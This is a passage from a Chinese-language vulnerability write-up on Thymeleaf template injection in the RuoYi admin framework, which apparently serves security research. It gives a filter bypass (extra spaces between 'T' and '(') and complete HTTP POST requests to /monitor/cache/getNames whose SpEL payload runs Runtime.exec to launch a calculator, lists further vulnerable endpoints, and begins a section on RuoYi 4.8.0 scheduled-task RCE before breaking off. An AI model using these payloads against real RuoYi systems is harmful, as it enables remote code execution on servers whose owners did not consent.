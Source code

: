   
版本对这个版本进行了一些先知，防止模板注入漏洞，
```
https://github.com/thymeleaf/thymeleaf/issues/809
```

  
以下为防护的情况：  
  
我们将Payload改造一下，如
```
${T (java.lang.Runtime).getRuntime().exec(&#34;calc.exe&#34;)}
```

  
。在T和(之间多加几个空格即可，放入数据包中进行测试发现成功弹出计算器。  
  
这里为了方便演示，
```
payload
```

  
直接贴出来了，大家测试的时候记得进行
```
URL
```

  
编码。  

```
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a calculator')}__::.x

```


```
cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}

```

#### 接口/monitor/cache/getKeys  
#### 接口/monitor/cache/getValue  
#### 接口/demo/form/localrefresh/task  
# 0x09 若依4.8.0版本计划任务RCE  
### 环境搭建  
  
https://github.com/yangzongzhuan/RuoYi/releases  
  
导入数据库，修改application-druid中的数据库账号密码  
  
修改application中的文件路径及log存放路径  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicqdnSx8DWiatrY9pTroMGXwlI6C9uDqN9EXNicnItuEvkOMbkc8piarPJg/640?wx_fmt=png&from=appmsg "")  
  